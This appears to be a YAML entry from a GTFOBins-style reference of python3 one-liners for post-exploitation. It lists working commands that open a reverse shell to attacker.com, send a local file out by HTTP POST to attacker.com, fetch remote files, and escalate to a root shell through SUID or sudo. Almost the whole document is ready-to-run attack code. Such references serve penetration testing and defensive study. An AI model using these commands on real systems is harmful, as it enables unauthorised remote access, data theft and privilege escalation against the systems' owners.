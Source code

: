 ```yaml
---
functions:
  execute-interactive:
    - code: python3 -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python3 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python3 -c 'import urllib.request as r,urllib.parse as u;from os import environ as e; r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LPORT=8888
        python3 -m http.server $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python3 -c 'import urllib.request as u;from os import environ as e; u.urlretrieve (e["URL"], e["LFILE"])'
  file-write:
    - code: python3 -c 'open("file_to_write","w+").write("DATA")'
  file-read:
    - code: python3 -c 'open("file_to_read").read()'
  load-library:
    - code: python3 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid-enabled:
    - code: ./python3 -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
    - code: sudo python3 -c 'import os; os.system("/bin/sh")'
---
```


